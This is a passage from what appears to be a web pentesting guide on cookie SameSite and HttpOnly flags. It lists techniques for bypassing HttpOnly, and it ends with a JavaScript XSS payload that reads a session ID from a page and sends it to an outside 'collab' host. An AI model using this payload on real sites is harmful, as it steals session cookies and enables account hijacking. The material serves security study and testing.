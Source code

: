 Table from [Invicti](https://www.netsparker.com/blog/web-security/same-site-cookie-attribute-prevent-cross-site-request-forgery/) and slightly modified.\
A cookie with _**SameSite**_ attribute will **mitigate CSRF attacks** where a logged session is needed.

**\*Notice that from Chrome80 (feb/2019) the default behaviour of a cookie without a cookie samesite** **attribute will be lax** ([https://www.troyhunt.com/promiscuous-cookies-and-their-impending-death-via-the-samesite-policy/](https://www.troyhunt.com/promiscuous-cookies-and-their-impending-death-via-the-samesite-policy/)).\
Notice that temporary, after applying this change, the **cookies without a SameSite** **policy** in Chrome will be **treated as None** during the **first 2 minutes and then as Lax for top-level cross-site POST request.**

## Cookies Flags

### HttpOnly

This avoids the **client** to access the cookie (Via **Javascript** for example: `document.cookie`)

#### **Bypasses**

- If the page is **sending the cookies as the response** of a requests (for example in a **PHPinfo** page), it's possible to abuse the XSS to send a request to this page and **steal the cookies** from the response (check an example in [https://blog.hackcommander.com/posts/2022/11/12/bypass-httponly-via-php-info-page/](https://blog.hackcommander.com/posts/2022/11/12/bypass-httponly-via-php-info-page/)).
- This could be Bypassed with **TRACE** **HTTP** requests as the response from the server (if this HTTP method is available) will reflect the cookies sent. This technique is called **Cross-Site Tracking**.
  - This technique is avoided by **modern browsers by not permitting sending a TRACE** request from JS. However, some bypasses to this have been found in specific software like sending `\r\nTRACE` instead of `TRACE` to IE6.0 SP2.
- Another way is the exploitation of zero/day vulnerabilities of the browsers.
- It's possible to **overwrite HttpOnly cookies** by performing a Cookie Jar overflow attack:


{{#ref}}
cookie-jar-overflow.md
{{#endref}}

- It's possible to use [**Cookie Smuggling**](#cookie-smuggling) attack to exfiltrate these cookies
- If any server-side endpoint echoes the raw session ID in the HTTP response (e.g., inside HTML comments or a debug block), you can bypass HttpOnly by using an XSS gadget to fetch that endpoint, regex the secret, and exfiltrate it. Example XSS payload pattern:

```js
// Extract content between <!-- startscrmprint --> ... <!-- stopscrmprint -->
const re = /<!-- startscrmprint -->([\s\S]*?)<!-- stopscrmprint -->/;
fetch('/index.php?module=Touch&action=ws')
  .then(r => r.text())
  .then(t => { const m = re.exec(t); if (m) fetch('https://collab/leak', {method:'POST', body: JSON.stringify({leak: btoa(m[1])})}); });
```
